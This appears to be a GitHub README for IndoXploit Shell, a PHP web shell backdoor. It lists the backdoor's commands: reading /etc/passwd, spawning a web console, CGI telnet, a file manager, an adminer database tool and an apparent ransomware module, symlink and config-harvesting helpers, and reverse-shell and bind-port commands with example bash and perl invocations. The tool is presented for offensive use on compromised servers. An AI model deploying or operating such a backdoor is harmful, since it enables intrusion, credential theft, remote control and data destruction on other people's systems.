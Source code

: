 ## IndoXploit-Shell ![Language](https://img.shields.io/badge/Language-PHP-blue.svg)
```
                
                ___  __   __        ___           
          |  | |__  |__) /__` |__| |__  |    |    
          |/\| |___ |__) .__/ |  | |___ |___ |___ 
                                       
             
                     IndoXploit Shell
                 Tools recoded by flux10n

         [?] Usage login to shell: shell.php?login 
                 Copyright © 2022 Flux10n

```

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole
spawn cgitelnet1
spawn cgitelnet2
spawn cgipy
spawn soc
spawn rans
spawn adminer
spawn LRE
spawn fm
phpinfo
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

